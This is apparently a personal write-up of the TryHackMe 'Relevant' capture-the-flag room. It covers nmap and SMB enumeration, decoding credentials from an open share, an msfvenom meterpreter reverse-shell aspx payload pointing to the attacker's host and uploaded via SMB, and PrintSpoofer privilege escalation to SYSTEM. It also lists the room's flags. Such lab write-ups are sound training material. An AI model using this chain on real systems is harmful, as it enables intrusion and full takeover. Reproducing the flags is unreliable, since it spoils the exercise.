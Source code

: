 # Relevant

The first thing that I have done, using nmap:

```bash
nmap 10.10.91.208

Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-31 06:18 EST
Nmap scan report for 10.10.91.208
Host is up (0.076s latency).
Not shown: 995 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server

Nmap done: 1 IP address (1 host up) scanned in 11.68 seconds
```

- 80: Web page
- 135: msrpc
- 139: NetBios
- 445: Samba
- 3389: rdp

From there I can see that the machine is running windows.

The interessing ports are 80 and 445.

First of all I am just going to explolre the web page.

From the web page we can see that it uses IIS as a web server, which can be really helpfull, but for now I am going to search other things, like, samba enumeration:

```bash
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.91.208

Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-31 06:28 EST
Nmap scan report for 10.10.91.208
Host is up (0.067s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-enum-shares: 
|   account_used: guest
|   \\10.10.91.208\ADMIN$: 
|     Type: STYPE_DISKTREE_HIDDEN
|     Comment: Remote Admin
|     Anonymous access: <none>
|     Current user access: <none>
|   \\10.10.91.208\C$: 
|     Type: STYPE_DISKTREE_HIDDEN
|     Comment: Default share
|     Anonymous access: <none>
|     Current user access: <none>
|   \\10.10.91.208\IPC$: 
|     Type: STYPE_IPC_HIDDEN
|     Comment: Remote IPC
|     Anonymous access: <none>
|     Current user access: READ/WRITE
|   \\10.10.91.208\nt4wrksv: 
|     Type: STYPE_DISKTREE
|     Comment: 
|     Anonymous access: <none>
|_    Current user access: READ/WRITE

Nmap done: 1 IP address (1 host up) scanned in 36.80 seconds
```

Here I found out a shared folder called nt4wrksv, which can be a user.

And when I tried to enter this folder I was able to do that even without a password.

```bash
smbclient //10.10.91.208/nt4wrksv

Password for [WORKGROUP\kali]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Dec 31 06:28:38 2023
  ..                                  D        0  Sun Dec 31 06:28:38 2023
  passwords.txt                       A       98  Sat Jul 25 11:15:33 2020

                7735807 blocks of size 4096. 5136298 blocks available
```

I even found a passwords.txt file that I downloaded in my  machine to examine

```bash
cat passwords.txt                         

[User Passwords - Encoded]
Qm9iIC0gIVBAJCRXMHJEITEyMw==
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk
```

There are two encoded passwords.

the first one is encoded in base64: 

```bash
Bob - !P@$$W0rD!123
```

And it actually is username and password.

The second one is:

```bash
Bill - Juw4nnaM4n420696969!$$$
```

So, now we have two usernames with password.

Unfortunately they don’t work with the other samba folders.

So for now I am just going to switch target.

I tried using the rdp but even then I couldn’t enter.

So now I am going to try to enumerate the directories in the web page.

This didn’t go well. 

So I went and searched for the version of IIS.

Using burp I intercepted the request and found this:

```bash
Server: Microsoft-IIS/10.0
```

So now that we know the version I am going to search online for some know vulnerabilities.

At this point it was clear that I was doing something wrong, so I went back and did another scan, this time with all the ports:

```bash
nmap -p- -A 10.10.161.53 

Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-31 07:22 EST
Nmap scan report for 10.10.161.53
Host is up (0.057s latency).
Not shown: 65527 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds  Windows Server 2016 Standard Evaluation 14393 microsoft-ds
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=Relevant
| Not valid before: 2023-12-30T12:20:08
|_Not valid after:  2024-06-30T12:20:08
|_ssl-date: 2023-12-31T12:27:21+00:00; -1s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: RELEVANT
|   NetBIOS_Domain_Name: RELEVANT
|   NetBIOS_Computer_Name: RELEVANT
|   DNS_Domain_Name: Relevant
|   DNS_Computer_Name: Relevant
|   Product_Version: 10.0.14393
|_  System_Time: 2023-12-31T12:26:41+00:00
49663/tcp open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1h36m00s, deviation: 3h34m42s, median: -1s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard Evaluation 14393 (Windows Server 2016 Standard Evaluation 6.3)
|   Computer name: Relevant
|   NetBIOS computer name: RELEVANT\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-12-31T04:26:46-08:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-12-31T12:26:42
|_  start_date: 2023-12-31T12:20:09

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 265.81 seconds
```

And I got other 3 ports.

First thing that I am going to do is trying open the other web page:

Which is the same as the other.

Apart that this time I can enter the `nt4wrksv` directory that I have found in the samba share. (http://10.10.161.53:49663/nt4wrksv)

from the web page I can also access the passwords.txt file. (http://10.10.161.53:49663/nt4wrksv/passwords.txt)

And having the privilege to put file using smbclient I was able to open a reverse shell using:

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp  LHOST=10.18.20.116 LPORT=4555 -f aspx -o rev.aspx
```

Putting it in the `nt4wrksv` shared folder, opening a listener inside metasploit, and navigate in that directory in the browser. (http://10.10.161.53:49663/nt4wrksv/rev.aspx)

So now I got a reverse shell.

```bash
getuid

Server username: IIS APPPOOL\DefaultAppPool
```

First of all I am going to retrieve the flag inside the Bob directory: `THM{fdk4ka34vk346ksxfr21tg789ktf45}`

Now that I am in I can see the privileges using `whoami /priv`.

I see that I the SeImpersonatePrivilege is Enabled. So I am going to exploit that. 

I will do it using `PrintSpoofer64.exe.`

Which is a tool that can exploit this vulnerability.

```bash
PrintSpoofer64.exe -i -c powershell

[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Windows PowerShell 
Copyright (C) 2016 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> whoami
whoami
nt authority\system
```

And just like that I retrieved the flag in the administrator desktop: `THM{1fk5kf469devly1gl320zafgl345pv}`

[Relevant Report](https://www.notion.so/Relevant-Report-abd044f35721485e867b54a754a2d63c?pvs=21)